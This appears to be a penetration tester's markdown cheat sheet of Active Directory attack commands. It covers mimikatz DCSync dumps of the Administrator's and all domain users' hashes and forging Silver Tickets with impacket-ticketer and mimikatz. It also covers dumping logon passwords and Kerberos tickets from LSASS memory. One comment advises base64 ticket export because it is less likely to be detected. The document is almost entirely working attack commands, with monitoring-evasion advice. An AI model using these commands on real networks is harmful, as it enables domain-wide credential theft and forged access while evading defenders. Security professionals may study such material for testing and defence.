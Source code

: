 ```shell
token::elevate

lsadump::dcsync /user:corp\dave
lsadump::dcsync /user:corp\Administrator
lsadump::dcsync /domain:[domain] /all /csv
# NTDS.dit (equivalent of -just-dc in impacket-secretsdump)
```

# ***Silver Ticket (LAr)***
***Accessing SPN services as PRIV USER through forged service tickets***
***NEED:***
1. _**SPN hash** (impacket or mimikatz)_
2. _**Domain SID** (everything upto last dash - from whoami /user)_
3. _**SPN resource name** (setspn.exe or Get-NetUser -SPN)_
4. _**Target Domain User** (for the /user option)_
## impacket
```shell
# 1 Obtain SPN NTLM hash (secretsdump or mimikatz)

# 2 GET Domain SID (from one of below)
impacket-lookupsid `dom`/'user'[:'pass']@`tip` -H :HASH
nxc ldap `dc` -u 'pass' -p 'pass' -k --get-sid

# 3 FORGE the TGS
impacket-ticketer -domain `dom` -nthash :SPNHASH -domain-sid SID -spn SERVICE/`dom` USER
```
## mimikatz
```shell
privilege::debug
token::elevate

# REPLACE ALL CAPPED stuff w/ appropriate things
sekurlsa::logonpasswords
kerberos::golden /sid:DOMAINSID /domain:DOMAIN /ptt /target:WEB04.CORP.com /service:HTTP /rc4:SPNHASH /user:USER
```
# *List Tickets (Du)*
## PS
```shell
klist
```
## mimikatz / rubeus
```shell
privilege::debug
token::elevate

# Current Session tickets on the host
kerberos::tgt
kerberos::list

# ALL Tickets from ALL Sessions on the host
sekurlsa::tickets

# injects into LSASS memory so don’t do it if there’s a monitoring service
# add /export to any of these to export but first base64 /out:true and base64 /in:true to export base64 encoded (less likely to be detected)

```